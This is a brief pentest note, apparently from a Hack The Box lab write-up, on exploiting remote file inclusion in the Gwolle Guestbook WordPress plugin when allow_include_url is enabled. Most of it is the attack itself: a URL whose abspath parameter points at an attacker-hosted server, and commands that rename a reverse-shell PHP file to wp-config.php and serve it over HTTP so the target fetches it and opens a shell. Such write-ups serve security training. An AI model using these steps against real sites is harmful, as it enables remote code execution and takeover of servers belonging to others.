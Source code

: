 # allow\_include\_url

## allow\_include\_url enabled

### Remote File Inclusion POC&#x20;

* Gwolle Guestbook WordPress Plugin (allow\_include\_url is enable ...)

http://\[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://\[hackers\_website]

[http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test](http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test)

![](../../../../.gitbook/assets/ed0d0dce1b334732b8bc6acee0e72716.png)

* The server is trying to reach wp-config.php , so let's copy a revershell , rename it and host it:

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# cp nyws.php wp-config.php`

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# python -m SimpleHTTPServer 80`

![](../../../../.gitbook/assets/fd5cef2219244d7c8fb52f59a5107124.png)

* And get a shell back :

![](../../../../.gitbook/assets/8f91ebcb7a024ac9ad3c99a7928e17d6.png)
